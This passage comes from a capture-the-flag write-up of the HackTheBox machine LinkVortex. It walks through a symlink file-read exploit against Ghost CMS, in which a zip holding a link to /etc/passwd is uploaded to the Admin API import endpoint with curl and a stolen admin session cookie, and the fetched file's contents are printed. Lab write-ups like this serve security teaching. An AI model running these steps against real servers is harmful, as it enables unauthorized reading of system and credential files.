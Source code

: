 ```

oxdf@hacky$ rm content/images/malicious.jpg
oxdf@hacky$ ln -s /etc/passwd content/images/0xdf.png
oxdf@hacky$ zip -y -r poc.zip content/images/
  adding: content/images/ (stored 0%)
  adding: content/images/0xdf.png (stored 0%)

```

`-y` tells `zip` to include symbolic links rather than go for the file / path.

#### Upload Zip

The [Ghost API docs](https://ghost.org/docs/admin-api/) show that the base URL for the Admin API is `/ghost/api/admin`. The endpoint here is therefore `/ghost/api/admin/db`. I’ll need to be authenticated. I’ll notice that in the browser dev tools I have a cookie for the admin page:

![image-20250407125427331](/img/image-20250407125427331.png)

I’ll also note in the unit test that the attachment is named `importfile`.

Putting that all together, I get:

```

oxdf@hacky$ curl http://linkvortex.htb/ghost/api/admin/db -F "importfile=@poc.zip" -b 'ghost-admin-api-session=s%3AbWhDHjQNa5JeU809QF2JPW6e4UEss2Em.g6N0Kedu5O7xKtx8RF30BBpoEO1OMgdIJ%2BazK7H6nWY' 
{"db":[],"problems":[]}

```

`-F` in `curl` is to attach a file, and the `@<filename>` syntax tells `curl` to take the contents of that file. `-b` is used to specify the cookie. It seems to have worked. Reading it returns `/etc/passwd`:

```

oxdf@hacky$ curl -b 'ghost-admin-api-session=s%3AbWhDHjQNa5JeU809QF2JPW6e4UEss2Em.g6N0Kedu5O7xKtx8RF30BBpoEO1OMgdIJ%2BazK7H6nWY' http://linkvortex.htb/content/images/0xdf.png
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash

```

